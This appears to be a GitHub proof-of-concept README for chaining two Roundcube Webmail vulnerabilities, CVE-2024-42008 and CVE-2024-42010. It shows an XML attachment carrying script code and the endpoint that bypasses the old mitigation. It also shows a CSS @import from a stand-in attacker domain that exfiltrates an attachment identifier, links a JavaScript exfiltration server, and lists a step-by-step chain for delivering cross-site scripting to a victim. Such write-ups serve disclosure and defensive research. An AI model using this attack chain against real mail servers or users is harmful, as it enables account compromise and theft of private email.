


### Proof of Concept: CVE-2024-42008 and CVE-2024-42010

This proof of concept (PoC) demonstrates the exploitation of two vulnerabilities in Roundcube Webmail that enable CSS injection and a cross-site scripting (XSS). The attack consists of two stages:

1. **XSS via malicious XML attachment (CVE-2024-42008)**
    
    Because of insufficient file upload checks, an XML file can be sent as an attachment with JavaScript code e.g.
    
    ```xml
    <something:script xmlns:something="<http://www.w3.org/1999/xhtml>">
    	alert(origin)
    </something:script>
    ```
    
    This was a known issue and tracked as CVE-2020-13965 and the mitigation was to disable the "Open attachment" option. But the file can still be accessed through the endpoint
    
    ```
    https://roundcube.host.com/?_task=mail&_mbox=INBOX&_uid=[UID]&_part=2&_download=0&_action=get
    ```
    
    Where UID is the unique identifier for this particular attachment in this particular mailbox (i.e. INBOX).
    
    
3. **HTML exfiltration via CSS injection (CVE-2024-42010)**
    
    When sending an email, it is possible to inject your own CSS file, when hosted in a domain that starts with `a`. Through that and a JavaScript server file that processes the requests made by the vulnerable Roundcube host, it is possible to extract the UID of the malicious XSS attachment.
    
    Import the CSS in a sent email with
    
    ```css
    <style>
    	@import "//a.attackerdomain.com/start?"
    </style>
    ```
    
    Host the JS server ([roundcube-css-exploit.js](https://github.com/victoni/Roundcube-CVE-2024-42008-and-CVE-2024-42010-POC/blob/main/roundcube-css-exploit.js)) that exfiltrates the UID of the malicious attachment
    

**Attack Chain**
 1. Host in your domain the JavaScript server
 2. Send an email with a malicious XML attachment and import the CSS from your domain
 3. The victim opens the email and the UID gets exfiltrated
 4. Then, depending on the preferred way of the XSS delivery you can either send a second email with the attachment link or redirect the user through there.

**Source: [Government Emails at Risk: Critical Cross-Site Scripting Vulnerability in Roundcube Webmail (Sonar's Vulnerability Research Team)](https://www.sonarsource.com/blog/government-emails-at-risk-critical-cross-site-scripting-vulnerability-in-roundcube-webmail/)**
